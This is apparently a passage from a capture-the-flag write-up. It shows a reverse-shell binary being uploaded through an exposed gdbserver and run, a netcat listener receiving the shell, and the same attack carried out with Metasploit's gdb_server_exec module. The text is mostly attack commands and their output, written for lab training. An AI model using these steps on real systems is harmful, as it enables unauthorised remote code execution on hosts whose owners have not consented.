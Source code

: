 ```terminal
```

Great! Now we upload the file.

```terminal
(gdb) remote put shell.elf /dev/shm/shell.elf
Successfully sent file "shell.elf".
```

And now we setup our listener and run the binary.

```terminal
(gdb) set remote exec-file /dev/shm/shell.elf
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program:  
Reading /dev/shm/shell.elf from remote target...
Reading /dev/shm/shell.elf from remote target...
Reading symbols from target:/dev/shm/shell.elf...
(No debugging symbols found in target:/dev/shm/shell.elf)
Reading /usr/lib/debug/.build-id/42/86d016f71e32db3a4f7221c847c3d1e13d6bd4.debug from remote target...
[Detaching after fork from child process 16518]
[Inferior 1 (process 16505) exited normally]
```

```terminal
[★]$ nc -lvnp 9001        
listening on [any] 9001 ...
connect to [10.10.16.18] from (UNKNOWN) [10.129.96.68] 43574
id
uid=1000(user) gid=1000(user) groups=1000(user)
```

We got the shell.

There is another easy way to exploit this and it's with the metasploit module `exploit/multi/gdb/gdb_server_exec`.

```terminal
[msf](Jobs:0 Agents:0) exploit(multi/gdb/gdb_server_exec) >> set lhost tun0
lhost => 10.10.16.18
[msf](Jobs:0 Agents:0) exploit(multi/gdb/gdb_server_exec) >> set lport 9001
lport => 9001
[msf](Jobs:0 Agents:0) exploit(multi/gdb/gdb_server_exec) >> set rhosts 10.129.96.68
rhosts => 10.129.96.68
[msf](Jobs:0 Agents:0) exploit(multi/gdb/gdb_server_exec) >> set rport 1337
rport => 1337
[msf](Jobs:0 Agents:0) exploit(multi/gdb/gdb_server_exec) >> set payload linux/x64/shell_reverse_tcp
payload => linux/x64/shell_reverse_tcp
[msf](Jobs:0 Agents:0) exploit(multi/gdb/gdb_server_exec) >> run

[*] Started reverse TCP handler on 10.10.16.18:9001 
[*] 10.129.96.68:1337 - Performing handshake with gdbserver...
[*] 10.129.96.68:1337 - Stepping program to find PC...
[*] 10.129.96.68:1337 - Writing payload at 00007ffff7fd0103...
[*] 10.129.96.68:1337 - Executing the payload...
[*] Command shell session 1 opened (10.10.16.18:9001 -> 10.129.96.68:43478) at 2024-12-12 19:45:13 +0100

id
uid=1000(user) gid=1000(user) groups=1000(user)
```
